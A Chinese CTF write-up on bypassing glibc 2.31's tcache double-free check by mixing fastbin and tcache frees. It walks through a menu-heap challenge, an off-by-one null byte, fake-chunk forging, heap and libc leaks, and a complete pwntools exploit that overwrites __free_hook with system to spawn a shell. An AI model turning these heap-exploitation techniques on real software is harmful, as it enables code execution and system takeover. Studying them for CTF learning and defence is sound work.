

tcache中的double free
前言
第一次参加组内月赛，借这个机会正好熟悉一下glibc2.31下的tcache攻击的相关套路
难点
相比较前面，tcache增加了如下代码，检查可能的double free1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
{
size_t tc_idx = csize2tidx (size);
if (tcache != NULL && tc_idx < mp_.tcache_bins)
{
/* Check to see if it's already in the tcache. */
tcache_entry *e = (tcache_entry *) chunk2mem (p);
/* This test succeeds on double free. However, we don't 100%
trust it (it also matches random payload data at a 1 in
2^<size_t> chance), so verify it's not an unlikely
coincidence before aborting. */
if (__glibc_unlikely (e->key == tcache))
{
tcache_entry *tmp;
LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
for (tmp = tcache->entries[tc_idx];
tmp;
tmp = tmp->next)
if (tmp == e)
malloc_printerr ("free(): double free detected in tcache 2");
/* If we get here, it was a coincidence. We've wasted a
few cycles, but don't abort. */
}
if (tcache->counts[tc_idx] < mp_.tcache_count)
{
tcache_put (p, tc_idx);
return;
}
}
}
可以看到，这里会判断tcache的key字段的值。而每一个被释放的tcache，其key都会按照如下代码，被设置为固定的值，从而尽可能避免了double free
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15/* Caller must ensure that we know tc_idx is valid and there's room
for more chunks. */
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
/* Mark this chunk as "in the tcache" so the test in _int_free will
detect a double free. */
e->key = tcache;
e->next = tcache->entries[tc_idx];
tcache->entries[tc_idx] = e;
++(tcache->counts[tc_idx]);
}
因此，这里没有办法轻易的使用double free——free的chunk大小只要在tcache的范围之内，都会首先以tcache的方式进行释放，也就是会检查这个字段(tcidx < mp.tcache_bins的条件一般总是满足的)，总而导致无法方便的double free
策略
目前绕过的策略是利用fast bin和tcache，共同完成double free攻击
如果我们想要完成victim内存块的double free攻击，其基本策略如下所示：
- 首先任意释放7个与victim相同大小的chunk，从而将对应的tcache填充满，如下图所示
- 将victim内存块释放掉。由于tcache已经满了，则其会被释放到对应大小的fast bin链上，如下图所示
- 申请一个与victim相同大小的chunk。根据malloc的分配流程，其会首先从tcache中进行申请，然后再去查找fast bin。因此这里会分配前面的chunk1，如下图所示

重新释放victim内存块。由于之前tcache中没有释放过victim，则可以正常释放；但是fast bin中已经有victim内存块，则完成了double free，如下图所示
之后一般的利用方式就是普通的double free
可以通过申请victim内存并修改其上的数据，从而修改掉fast bin的链表指向。
实例 pwn2
点击附件链接下载文件
保护分析
首先我们简单的查看一下程序相关的保护机制
可以看到，基本上所有保护都全部开启，那么基本上可以猜测，这是一道菜单堆的题目
漏洞分析
我们首先介绍一下程序的逻辑结构。
整个程序主要分为三个逻辑块，创建note、删除note和输出note信息。
其创建note的程序逻辑如下所示
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25int add()
{
int i; // [rsp+8h] [rbp-8h]
unsigned int size; // [rsp+Ch] [rbp-4h]
for ( i = 0; ; ++i )
{
if ( i > 9 )
return puts("Full!");
if ( !*((_QWORD *)&unk_4068 + 8 * (__int64)i) || *((_DWORD *)¬es + 16 * (__int64)i) )
break;
}
printf("Size: ");
size = read_int();
if ( size > 0x78 )
return puts("Too big!");
*((_QWORD *)&unk_4068 + 8 * (__int64)i) = malloc(size);
memset(*((void **)&unk_4068 + 8 * (__int64)i), 0, size);
printf("Note: ");
read_input(*((_QWORD *)&unk_4068 + 8 * (__int64)i), size);
printf("Description of this note: ");
__isoc99_scanf("%48s", (char *)¬es + 64 * (__int64)i + 16);
*((_DWORD *)¬es + 16 * (__int64)i) = 0;
return puts("Done!");
}
实际上，这里有一个很明显的溢出漏洞(实际上我一开始不太确认，还在电脑上简单测试了一下)——__isoc99_scanf("%48s", (char *)¬es + 64 * (__int64)i + 16);这一行代码，其限制了48个字符，但是字符串结尾的\x00没有计算在内，这实际上会覆盖掉((_DWORD *)¬es + 16 * (__int64)i)
对于删除note的程序逻辑，其如下所示
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31int delete()
{
void *v0; // rax
unsigned __int64 v2; // [rsp+8h] [rbp-8h]
printf("Which note do you want to delete?\nIndex: ");
v2 = (int)read_int();
if ( v2 <= 9 )
{
if ( *((_QWORD *)&unk_4068 + 8 * v2) )
{
if ( *((_DWORD *)¬es + 16 * v2) )
{
puts("Double free! Bad hacker :(");
_exit(-1);
}
free(*((void **)&unk_4068 + 8 * v2));
v0 = ¬es;
*((_DWORD *)¬es + 16 * v2) = 1;
}
else
{
LODWORD(v0) = puts("No such note!");
}
}
else
{
LODWORD(v0) = puts("Invalid index.");
}
return (int)v0;
}
并没有什么明显的漏洞。但是配合分配时的溢出漏洞，可以实现一个内存块的多次释放——即存在了double free的可能性
最后对于输出note信息，其逻辑如下所示1
2
3
4
5
6
7
8
9
10
11
12
13
14
15int list()
{
int i; // [rsp+Ch] [rbp-4h]
for ( i = 0; i <= 9; ++i )
{
if ( *((_QWORD *)&unk_4068 + 8 * (__int64)i) && !*((_DWORD *)¬es + 16 * (__int64)i) )
printf(
"Note %d:\n Data: %s\n Desc: %s\n",
(unsigned int)i,
*((const char **)&unk_4068 + 8 * (__int64)i),
(const char *)¬es + 64 * (__int64)i + 16);
}
return puts(byte_2078);
}
类似于删除note，没有什么明显的漏洞，但是配合分配note时的溢出，可以打印被释放的内存上的相关信息——这是泄露libc基址的基础。
漏洞利用
实际上，根据前面的漏洞分析，其大致的思路也很简单
通过分配时的note溢出，从而构造double free，进而控制fast bin链的指向，替换为可控内存地址，分配该内存地址后，将其释放到unsorted bin中。再次利用分配时的note溢出，打印出unsorted bin中内存上的相关信息，从而泄露libc基址
其次，由于我们有可控内存地址，则我们修改该值，从而覆盖掉释放的chunk，从而更改tcache链的指向，从而分配__free_hook附近的内存地址，并将其覆写成system的值，通过释放一个包含/bin/bash字段的内存对象，最终获取程序的shell
实际上，这里面还有较多的细节需要注意——其申请内存最多不超过0x78，即chunk大小为0x80，但是我们如何将其释放到unsorted bin中，这通常需要一些技巧，即在可控的连续内存对象上伪造一个内存对象，然后将其插入tcache或bin中。
这里简单介绍一下，为了避免申请/释放内存对我们伪造的内存块产生影响，则我们将伪造的chunk从正常chunk的SIZE_SZ * 2偏移处开始构造；一般使用都是通过double free插入空闲链表，然后申请后在进行释放，因此需要构造相应的环境通过检查(一个0x20的正在使用的pre chunk、两个0x20的正在使用的next chunk)，从而可以绕过各种检查，将该伪造的chunk当作正常的chunk使用。
这样子，由于我们将chunk伪造在可控内存地址处，则伪造的chunk上的数据可以通过更改可控内存地址进行修改，从而修改空闲链的指向
另一方面，由于往往伪造的chunk很大，会跨越多个正常的chunk，因此我们可以通过修改伪造chunk的数据，从而更改正常chunk上的值，也同样可以修改空闲链的指向
实现
最后，这里给出这个漏洞利用的具体实现和细节说明
首先，我们的目标是伪造一个足够大的chunk(不在tcache的范围内，本题选择0x470)，从而释放可以直接释放到unsorted bin中。
- 伪造一个大小是0x80的fake chunk，并将其通过double free插入到fast bin的空闲链上，绕过大小检查。并且将其申请出来。
- 通过修改fake chunk所在的chunk的数据，将fake chunk的大小更改为0x470，此时fake chunk仍在可控内存对象中，并且其为了绕过周边检查的环境已经铺垫好
将fake chunk释放掉，则会将其释放到unsorted bin的链上
由于我们会利用到double free，则我们首先按照前面的漏洞分析，构造一个double free的环境，如下代码所示
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25#leak the chunk address
node_add(r, 0x78, 'a', 'a\n') #0 chunk_base
node_add(r, 0x78, 'a', 'a\n') #1 chunk_base + 0x80
node_add(r, 0x78, 'a', 'a\n') #2 chunk_base + 0x80 * 2
node_add(r, 0x78, 'a', 'a\n') #3 chunk_base + 0x80 * 3
node_add(r, 0x78, 'a', 'a\n') #4 chunk_base + 0x80 * 4
node_add(r, 0x78, 'a', 'a\n') #5 chunk_base + 0x80 * 5
node_add(r, 0x78, 'a', 'a\n') #6 chunk_base + 0x80 * 6
node_add(r, 0x78, 'a', 'a\n') #7 chunk_base + 0x80 * 7
node_add(r, 0x78, 'a', 'a\n') #8 chunk_base + 0x80 * 8
node_add(r, 0x78, p64(0) * 2 + p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x21), 'a\n') #9 chunk_base + 0x80 * 9
node_del(r, 8)
node_del(r, 7)
node_del(r, 6)
node_del(r, 5)
node_del(r, 4)
node_del(r, 3)
node_del(r, 0) #tcache full
node_del(r, 9)
node_del(r, 2)
node_del(r, 1)此时内存中的布局如下所示
如果我们要将伪造的chunk插入到空闲链上，首先需要知道chunk的地址。这个其实不是很困难——我们通过前面的溢出，会将
idx = 1的chunk重新标明为未释放，则打印时会打印其内容，根据内存布局可知，会打印base + 0x80 * 2的值，从而我们可以获取base的值，即获取了整个内存布局的地址。
与此同时，我们在利用溢出的过程中，同时在idx = 0的chunk上构造对应的伪造chunk，为之后将该伪造chunk插入链表中做铺垫，代码如下所示1
2
3
4node_add(r, 0x78, p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x81), 'a' * 0x30) #0 chunk_base
info = node_list(r).split('Note 1:\n Data: ')[1].split('\n Desc: ')[0]
chunk_base = u64(info.ljust(8, '\x00')) - 0x80 * 2
log.info('chunk_base => %x'%(chunk_base))此时，其内存布局如下所示
可以看到，此时在base + 0x30上，已经有了一个fake chunk(其之后会更改大小，因此不需要在伪造前后chunk)，则下面我们只需要进行double free，并修改fast bin的指向即可——即释放
idx = 1的chunk，如下所示1
node_del(r, 1) #double free
其内存布局已经构成double free的局面，如下所示
此时，我们将fake chunk挂在fast bin的链上即可，代码如下
1
node_add(r, 0x78, p64(chunk_base + 0x30), 'a\n') #1 chunk_base + 0x80
其fake chunk已经被插入到fast bin链上，如下所示
然后，需要将该fake chunk分配出来，并通过修改base对应的chunk数据，从而覆写fake chunk的大小，最后将其释放到unsorted bin中即可，相关代码如下所示
1
2
3
4
5
6
7
8
9
10node_add(r, 0x78, 'a', 'a\n') #2 chunk_base + 0x80 * 3
node_add(r, 0x78, 'a', 'a\n') #3 chunk_base + 0x80 * 4
node_add(r, 0x78, 'a', 'a\n') #4 chunk_base + 0x80 * 5
node_add(r, 0x78, 'a', 'a\n') #5 chunk_base + 0x80 * 6
node_add(r, 0x78, 'a', 'a\n') #6 chunk_base + 0x80 * 7
node_add(r, 0x78, 'a', 'a\n') #7 chunk_base + 0x80 * 8 tcache empty
node_add(r, 0x78, 'a', 'a\n') #8 chunk_base + 0x80
node_add(r, 0x78, p64(0) * ((0x80 - 0x30 - 0x10) / 0x8) + p64(0) + p64(0x81), 'a\n') #9 chunk_base + 0x30此时，
idx = 0到idx = 9上都被分配了相关的chunk，此时一方面需要更改base对应的chunk数据，并重新覆写fake chunk大小；另一方面，需要将fake chunk释放到unsorted bin中，并且通过该值获取libc基址，代码如下所示1
2
3
4
5
6
7
8
9node_del(r, 8) #to show unsorted_bin in index9
node_del(r, 0)
node_add(r, 0x78, p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x471), 'a\n') #0 chunk_base change the chunk size in index8
node_del(r, 9)
node_add(r, 0x78, 'a', 'a' * 0x30) #8 chunk_base + 0x80 change the flag in index8
info = node_list(r).split('Note 9:\n Data: ')[1].split('\n Desc: ')[0]
lib_base = u64(info.ljust(8, '\x00')) + 0x7fdb734b0000 - 0x7fdb734a7be0
log.info('lib_base => %x'%lib_base)此时其内存布局如下所示

目前，我们已经获取了libc的基址了，并且我们可以通过修改fake chunk的值，从而覆盖其他正常tcache的值，从而修改tcache的链的指向，则我们只需要将__free_hook插入到tcache链上即可，代码如下所示
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24node_del(r, 0)
node_add(r, 0x78, p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x81), 'a\n') #0 chunk_base
node_del(r, 1)
node_add(r, 0x78, p64(0) * 4 + p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x21), 'a\n') #1 chunk_base + 0x80
node_del(r, 3)
node_del(r, 2)
node_del(r, 1)
node_del(r, 9)
free_hook = lib_base + lib_file.sym['__free_hook'] - 0x7f0d689bbb28 + 0x7f0d687f6b28
log.info('__free_hook => %x'%(free_hook))
node_add(r, 0x78, p64(0) * ((0x70 - 0x30) / 0x8) + p64(0) + p64(0x81) + p64(free_hook), 'a\n') #1 chunk_base + 0x30
node_add(r, 0x78, '/bin/bash\x00', 'a\n') #2 chunk_base + 0x80
system = lib_base + lib_file.sym['system'] - 0x7f0d688449f0 + 0x7f0d6867f9f0
log.info('system => %x'%(system))
node_add(r, 0x78, p64(system), 'a\n')
node_del(r, 2)
r.interactive()这里需要特别说明一下，由于fake chunk的大小是0x470，我们无法分配到。因此，我们首先需要通过覆写
idx = 0的chunk，重新设置fake chunk的大小。
另一方面，由于之后会释放该fake chunk，因此需要覆写idx = 1的chunk，为其绕过检查构造出一个0x20的正在使用的pre chunk、两个0x20的正在使用的next chunk。